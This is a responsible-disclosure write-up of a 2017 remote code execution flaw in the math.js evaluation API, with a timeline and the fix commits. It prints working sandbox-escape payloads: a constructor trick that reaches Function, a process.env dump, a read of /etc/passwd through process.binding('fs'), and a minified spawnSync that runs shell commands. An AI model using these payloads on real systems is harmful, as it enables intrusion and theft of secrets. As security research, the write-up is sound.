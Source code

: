 How we exploited a remote code execution vulnerability in math.js
====

This article explains in short how we found, exploited and reported a remote code execution (RCE) vulnerability. It is meant to be a guide to finding vulnerabilities, as well as reporting them in a responsible manner.

## Step one: discovery
While playing around with [a wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) of the math.js API (`http://api.mathjs.org/v1/?expr=expression-here`), we discovered that it **appears to evaluate JavaScript**, though with some restrictions:

```
> !calc cos
Result: function

> !calc eval
Result: function

> !calc eval("x => x")
Error: Value expected (char 3)

> !calc eval("console.log")
Error: Undefined symbol console

> !calc eval("return 1")
Result: 1
```

In particular, it seems that `eval` was replaced with a safe version. `Function` and `setTimeout`/`setInterval` didn't work, either:

```
> !calc Function("return 1")
Error: Undefined symbol Function

> !calc setTimeout
Error: Undefined symbol Function
```

## Step two: exploitation

>Now that we figured out that there are some sort of restrictions around code evaluation, we had to escape them.

There are four standard ways to **evaluate strings in JavaScript**:

  - [`eval("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

In the math.js environment, these cannot be accessed directly, either because they aren't defined or because they have been redefined with safe functions. However, they can be accessed indirectly: notably, **`Function` can be accessed indirectly as the constructor of an existing function** - this was the key intuition that led to discovering the vulnerability.

>For example, `Function("return 1")` can be replaced with `Math.floor.constructor("return 1")`. Therefore, to evaluate `return 1`, we can use `Math.floor.constructor("return 1")()`.

We know that in the math.js environment `cos` is defined as a function, so we used that:

```
> !calc cos.constructor("return 1")()
Result: 1
```

Success!

From here we could have simply `require`-d some native modules and gained access to the OS, right? Not so fast: although the math.js API server runs in a Node.js environment, for whatever reason we couldn't use `require`.

```
> !calc cos.constructor("return require")()
Error: require is not defined
```

However, we could use `process`, which has [a few nifty features](https://nodejs.org/api/process.html):

```
> !calc cos.constructor("return process")()
Result: [object process]

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<redacted>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<redacted>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<redacted>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

Though `process.env` contains some bits of juicy info, it can't really do anything interesting: we need to go deeper and use [`process.binding`](http://stackoverflow.com/q/24042861), which exposes Javascript bindings to the OS. Though they are not officially documented and are meant for internal usage, one can reconstruct their behaviour from reading through the Node.js source code. For example, we can use `process.binding("fs")` to read arbitrary files on the OS (with the appropriate permissions):

>For brevity, we'll skip the `!calc cos.constructor("code")` wrapper, and paste the relevant JS code instead.

```
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

We're almost done: now we need to figure out a way to open a shell and run arbitrary commands. If you have experience with Node.js, you may know about [`child_process`](https://nodejs.org/api/child_process.html), which can be used to spawn processes with `spawnSync`: we just need to replicate this feature using OS bindings (remember that we can't use `require`).

This is easier than it seems: you can just take [the source code for `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), remove the code you don't need (unused functions and error handling), minify it, and run it through the API.

<script src="https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822.js"></script>
<noscript>
```
// Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

// Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

// Defines spawnSync, the function that will do the actual spawning
spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
<small>Gist [here](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822</small>
</noscript>

From here, **we can spawn arbitrary processes** and run shell commands:

```
> return spawnSync('/usr/bin/whoami');
{
  "status": 0,
  "signal": null,
  "output": [null, u15104, ],
  "pid": 100,
  "stdout": u15104,
  "stderr":
}
```

## Step three: reporting

Now that we found a vulnerability and exploited it to the largest extent possible, we had to decide what to do with it. Since we exploited it for fun and have no malicious intents, we took the "white hat" road and reported it to the maintainer. We **contacted him privately** through the e-mail address listed on his GitHub profile with the following details:

 - a short description of the vulnerability (a remote code execution flaw in mathjs.eval);
 - an **example attack** with explanation of how it works (a summary of why `cos.constructor("code")()` works and what can be achieved with `process.bindings`);
 - an actual **demonstration** on the live server (we included the output of `whoami` and `uname -a`);
 - suggestions on **how to fix it** (using the [`vm` module in Node.js](https://nodejs.org/api/vm.html), for example).

Over a course of two days, we worked with the author to help fix the vulnerability. Notably, after he pushed a fix in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) we found a similar workaround (if you can't use the constructor directly, use `cos.constructor.apply(null, "code")()`) which was fixed in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 March 2017 22:20 CEST: first successful exploitation
 - 29 March 2017 14:43 CEST: vulnerability reported to the author
 - 31 March 2017 12:35 CEST: second vulnerability (`.apply`) reported
 - 31 March 2017 13:52 CEST: both vulnerabilities are fixed

---

>This vulnerability was discovered by [\@CapacitorSet](https://github.com/CapacitorSet) and [\@denysvitali](https://github.com/denysvitali). Thanks to [\@josdejong](https://github.com/josdejong/) for promptly fixing the vulnerability and [JSFuck](http://www.jsfuck.com/) for discovering the `[].filter.constructor` trick.
>
>A clarification from Jos: math.js does not "evaluate JavaScript" as previously thought, rather, it "has its own parser with its own math oriented syntax and its own operators and functions. But these functions are still JavaScript functions of course."
>
><small>Released under [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).